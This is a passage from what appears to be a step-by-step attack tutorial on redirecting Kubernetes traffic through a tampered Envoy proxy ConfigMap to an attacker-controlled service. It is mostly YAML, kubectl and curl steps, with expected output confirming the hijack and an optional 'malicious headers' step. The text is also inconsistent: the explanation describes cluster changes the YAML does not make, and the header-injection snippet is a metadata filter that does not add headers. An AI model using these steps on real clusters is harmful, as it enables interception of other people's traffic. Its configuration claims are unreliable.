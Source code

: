 ```yaml
          - lb_endpoints:
            - endpoint:
                address:
                  socket_address:
                    address: attacker-service # Replace with attacker-service's FQDN or IP
                    port_value: 8080

```

**Explanation:** This YAML fragment modifies the `envoy-config.yaml` file.  It changes the `cluster` field in the routing rule to point to `attacker-service` instead of `backend-service`. Ensure that an `attacker-service` cluster exists and routes to a service you control.  The example YAML adds a cluster definition for `attacker-service` to handle the routed traffic. Replace the placeholder `attacker-service` and `backend-service` addresses with the actual FQDN or IP addresses of the attacker and legitimate backends, respectively.

**Step 5: Apply the Modified Configuration**

```bash
kubectl apply -f envoy-config.yaml
```

**Explanation:** This command applies the modified `envoy-config.yaml` to the Kubernetes cluster, updating the `envoy-config` ConfigMap.

**Expected Output:**

```
configmap/envoy-config configured
```

**Step 6: Verify Traffic Redirection**

Send a request to the service that is routed through the Envoy proxy and observe the response.

```bash
curl <service-endpoint>
```

**Explanation:** This command sends a request to the service endpoint that should have been routed to `backend-service`.

**Expected Output:** If the manipulation was successful, the response will come from the `attacker-service` instead of `backend-service`. The content will reflect the `attacker-service` response.  This confirms that the Envoy proxy is now routing traffic to the attacker-controlled endpoint.

**Step 7 (Optional): Inject Malicious Headers**

You can also inject malicious headers into requests or responses by adding filters to the Envoy configuration.  For example, the following config snippet could add a header to all outgoing requests. This would require modifications to the `http_filters` section:

```yaml
      http_filters:
      - name: envoy.filters.http.header_to_metadata
        typed_config:
          "@type": type.googleapis.com/envoy.extensions.filters.http.header_to_metadata.v3.Config
          request_rules:
          - header: "X-Custom-Header"
            on_present:
              metadata_namespace: envoy.http_router
              key: custom_header_value
              remove: false
      - name: envoy.filters.http.router
        typed_config: {}
```
